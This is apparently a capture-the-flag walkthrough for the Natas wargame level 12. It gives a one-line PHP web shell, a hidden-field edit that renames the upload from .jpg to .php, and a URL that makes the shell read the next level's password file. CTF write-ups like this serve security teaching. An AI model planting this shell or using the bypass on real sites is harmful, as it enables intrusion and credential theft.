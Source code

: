 # Level 12 -> Level 13  

upload this php webshell  

```php
<?php echo shell_exec($_GET['e'].' 2>&1'); ?>
```

change this portion in source code before uploading  

```html
<input type="hidden" name="filename" value="3oknjkmx27.jpg">
```

to

```html
<input type="hidden" name="filename" value="3oknjkmx27.php">
```

now execute the webshell  

```
http://natas12.natas.labs.overthewire.org/upload/k5uwtdrxxt.php?e=cat /etc/natas_webpass
```
